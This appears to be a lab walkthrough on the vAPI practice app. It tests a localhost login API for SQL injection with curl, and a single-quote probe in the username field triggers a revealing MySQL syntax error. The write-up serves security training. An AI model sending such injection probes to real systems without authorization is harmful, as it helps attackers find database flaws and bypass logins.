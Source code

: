 # Injection
> I think you won't get credentials for this.You can try to login though.

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
sqlmap 1.8.6.3#dev
```

# User Login
## POST /vapi/api8/user/login

We do not have any credentials. Lets try a blank login
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"\",\x0d\x0a    \"password\":\"\"\x0d\x0a}' \
    $'http://localhost/vapi/api8/user/login'
```
```http
HTTP/1.1 403 Forbidden
Host: localhost
Date: Sun, 30 Jun 2024 17:54:34 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:54:34 GMT
Content-Type: application/json

{"success":"false","cause":"IncorrectUsernameOrPassword"}
```

We could brute force possible credentials, but that may take a long time with no returns. We could also attempt injection.

Attempt a basic injection test of `'`
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"\'\",\x0d\x0a    \"password\":\"\"\x0d\x0a}' \
    $'http://localhost/vapi/api8/user/login'
```
```http
HTTP/1.1 500 Internal Server Error
Host: localhost
Date: Sun, 30 Jun 2024 17:56:22 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 17:56:22 GMT
Content-Type: application/json

{"errorInfo":["42000",1064,"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' AND password='' limit 1' at line 1"]}
```
- Observe that the database type has been exposed as "MySQL"
- Observe that the SQL syntax error is shown to us in the response as "1064 mysql 42000"
	- The ERROR 1064 (42000) mainly occurs when the syntax is not set correctly
